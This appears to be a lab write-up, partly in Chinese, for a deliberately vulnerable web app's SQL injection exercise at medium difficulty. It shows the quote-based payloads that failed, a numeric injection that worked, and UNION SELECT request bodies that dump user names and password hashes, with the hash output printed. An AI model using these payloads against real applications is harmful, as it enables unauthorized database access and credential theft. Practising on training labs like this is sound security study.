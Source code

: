 # SQL Injection

medium 難度換成使用選單 POST 送出

```json
{
	"id": "3",
	"Submit": "Submit"
}
```

### try

```sql
3' OR '1'='1
```

```sql
id=3'%20OR%20'1'%3D'1&Submit=Submit
```

```sql
id=3' OR '1'%3D'1&Submit=Submit
```

多試幾次之後，發現將 `'` 拿掉就可以注入了 @@

Request Body:

```sql
id=1 OR 2&Submit=Submit
```

因為之前已經知道欄位名稱了，所以直接選取即可

Request Body:

```sql
id=1 union select user_id, first_name, last_name from users;&Submit=Submit
```

### Done

Request Body:

```sql
id=1 union select last_name,password from users;&Submit=Submit
```

```sql
ID: 1 union select last_name,password from users;
First name: admin
Surname: admin

ID: 1 union select last_name,password from users;
First name: admin
Surname: b59c67bf196a4758191e42f76670ceba

ID: 1 union select last_name,password from users;
First name: Brown
Surname: e99a18c428cb38d5f260853678922e03

ID: 1 union select last_name,password from users;
First name: Me
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: 1 union select last_name,password from users;
First name: Picasso
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: 1 union select last_name,password from users;
First name: Smith
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
